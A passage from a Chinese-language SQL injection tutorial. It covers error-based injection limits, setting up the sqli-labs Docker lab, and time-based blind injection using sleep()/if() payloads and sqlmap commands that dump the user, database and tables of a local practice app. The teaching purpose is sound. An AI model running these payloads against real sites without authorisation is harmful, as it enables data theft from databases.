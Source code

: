





#### 6.2 报错注入的缺陷和解决方法

- 报错注入的回显内容，一般只有32位长度的字符串，这时候我们可以字符串截断函数截断查询的SQL语句来回显32位后面的内容，常用的字符串截断函数有`left`,`right`,`mid`,`substr`等等。
- burpsuite中错误注入，正常遍历的时候返回的请求都是正常的无法获取到有用信息，因此可以使用`Options`中的`Grep-Extract`中，过滤掉响应中自己想要的信息。



### 7. SQL注入进阶

实验基于`sqli-labs`,使用docker环境

```shell
# 启动
sudo docker run -dt --name sqli -p 7766:80 acgpiano/sqli-labs
# 进入容器
sudo docker exec -ti sqli /bin/bash
# 打开网页点击恢复默认设置
```



#### 7.1 时间注入

时间注入又名延时注入，输入盲注入的一种，通常是某个注入点无法通过布尔型注入获取数据而采用一种突破注入的技巧。

主要使用到`sleep()`,`if()`,`sbustring()`

```sql
select if(2>1,sleep(10),0);
select if(length(database())>1,sleep(5),0);
```



##### 7.1.1 使用SQLMap进行注入

使用`--technique=T`指定注入方式为时间注入

- 获取当前库，当前用户

```shell
sqlmap -u "http://192.168.0.109/06/vul/sqli/sqli_str.php?name=vince&submit=%E6%9F%A5%E8%AF%A2" -p name --technique=T --current-user --current-db --batch
```

- 获取表

   -D 指定数据库  --tables 获取表
   
   -dbs 获取所有数据库

```shell
sqlmap -u "http://192.168.0.109/06/vul/sqli/sqli_str.php?name=vince&submit=%E6%9F%A5%E8%AF%A2~" -p name --technique=T --tables -D pikachu --batch	
```

- 获取列名

